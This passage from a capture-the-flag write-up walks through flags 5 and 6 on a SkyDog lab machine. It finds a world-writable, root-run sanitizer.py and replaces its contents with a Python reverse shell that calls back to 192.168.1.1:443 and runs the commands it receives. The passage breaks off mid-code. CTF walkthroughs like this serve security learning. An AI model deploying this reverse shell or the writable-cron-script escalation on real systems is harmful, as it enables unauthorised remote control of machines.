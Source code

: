 So flag number 5 is:

> flag{82ce8d8f5745ff6849fa7af1473c9b35}

It resolves to "**Dr. Gunter Janek**".

BTW, did you mention the different username who owns the flag? **nemo**

## Flag #6

Let's resolve the last flag. The hint is "Little Black Box". A black box is a closed system where the inner contents are not known (kinda). Hmm.

I did ```find / -writable -type f``` to find all writeable files, it's quite a long list. After reviewing it I found an interesting file "**/lib/log/sanitizer.py**". Let's look what's inside of it:

```python
wernerbrandes@skydogctf:/$ cat /lib/log/sanitizer.py 
#!/usr/bin/env python
import os
import sys
try:
	os.system('rm -r /tmp/* ')
except:
	sys.exit()
```

It tries to flush the temporary file folder. 

```
wernerbrandes@skydogctf:/lib/log$ ls -al
total 12
drwxr-xr-x  2 root root 4096 Sep 18  2015 .
drwxr-xr-x 22 root root 4096 Sep 18  2015 ..
-rwxrwxrwx  1 root root   96 Oct 27  2015 sanitizer.py
```

It's own by root. Hmm. Maybe it's started by root periodically? Let's change the file a bit:

According to [that page](https://haiderm.com/simple-python-fully-undetectable-fud-reverse-shell-backdoor/) I pasted some code in it:

```python
#!/usr/bin/env python
#import os
#import sys
#try:
#	os.system('rm -r /tmp/* ')
#except:
#	sys.exit()

import socket,subprocess
HOST = '192.168.1.1'    # The remote host
PORT = 443            # The same port as used by the server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# connect to attacker machine
s.connect((HOST, PORT))
# send we are connected
s.send('[*] Connection Established!')
# start loop
while 1:
     # recieve shell command
     data = s.recv(1024)
     # if its quit, then break out and close socket
     if data == "quit": break
     # do shell command
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     # read output
```